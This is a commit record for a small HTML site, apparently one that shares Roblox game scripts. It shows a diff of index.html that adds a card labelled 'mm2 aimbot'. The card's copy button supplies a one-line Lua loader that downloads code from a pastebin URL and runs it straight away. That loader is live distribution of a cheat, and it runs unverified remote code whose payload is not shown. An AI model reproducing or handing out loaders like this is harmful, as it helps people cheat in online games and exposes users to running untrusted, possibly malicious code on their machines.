

Before and after one commit to Remastfe10/ANTOFORTBLOXSCRIPT1, a plain HTML site: page index.html in a window 1280 px wide. Shown: the part 723-952 px from the top of the page. Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Restore index.html with original contentr8f8

```diff
--- a/index.html
+++ b/index.html
@@ -193,10 +193,10 @@
 
 
 <div class="card">
-<h2>Slot</h2>
-<p>Esempio di script globale.</p>
+<h2>mm2 aimbot</h2>
+<p>mm2.</p>
 <!-- Inserisci qui il codice del Simple ESP -->
-<button onclick="copyScript('IL_TUO_CODICE_SIMPLE_ESP_QUI')">Copia</button>
+<button onclick="copyScript('loadstring(game:HttpGet("https://pastebin.com/raw/zk803gry"))()')">Copia</button>
 </div>
 
 
```
